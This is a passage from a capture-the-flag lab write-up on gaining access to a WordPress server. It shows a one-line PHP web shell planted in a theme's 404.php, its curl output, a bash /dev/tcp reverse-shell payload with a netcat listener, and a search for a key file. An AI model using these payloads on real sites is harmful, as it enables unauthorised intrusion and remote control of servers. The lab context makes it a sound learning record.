 ```
<?php get_footer(); ?>
```

⇒ we can edit this file (or any file php ) and update to get RCE 

- For testing, i just create a simple payload in Twenty Fifteen: 404 Template (404.php) and click button upload file
    - The payload
        
        ```
        <?php system($_GET['cmd']); ?>
        ```
        
    - The response
        
        ```
        ┌──(kali㉿kali)-[~/Downloads]
        └─$ curl http://10.10.153.211/404.php/?cmd=id
        uid=1(daemon) gid=1(daemon) groups=1(daemon)
                                                       
        ```
        
        ⇒ We rce successfully and we are user daemon
        
    
    [?] However, we must find other 2 keys and we don’t know where are 2 others keys on server. So how can we do that ?
    
    - We have to reverse shell by this payload:
    
    ```
    <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/OPEN_VPN_IP/8888 0>&1'");?>
    ```
    
    - Netcat on port 8888
    
    ```
    ┌──(kali㉿kali)-[~/Downloads]
    └─$ nc -lvnp 8888
    listening on [any] 8888 ...
    connect to [10.4.65.8] from (UNKNOWN) [10.10.153.211] 49426
    bash: cannot set terminal process group (1754): Inappropriate ioctl for device
    bash: no job control in this shell
    daemon@linux:/opt/bitnami/apps/wordpress/htdocs$  
    ```
    
- Find key2 on the server
    - Find key 2 but permission denied
    
    ```
    daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ find / -name "key-2-of-3.txt" 2>/dev/null                              
    <pps/wordpress/htdocs$ find / -name "key-2-of-3.txt" 2>/dev/null             
    /home/robot/key-2-of-3.txt
    daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ cat /home/robot/key-2-of-3.txt
    <pps/wordpress/htdocs$ cat /home/robot/key-2-of-3.txt                        
    cat: /home/robot/key-2-of-3.txt: Permission denied
    
    ```
    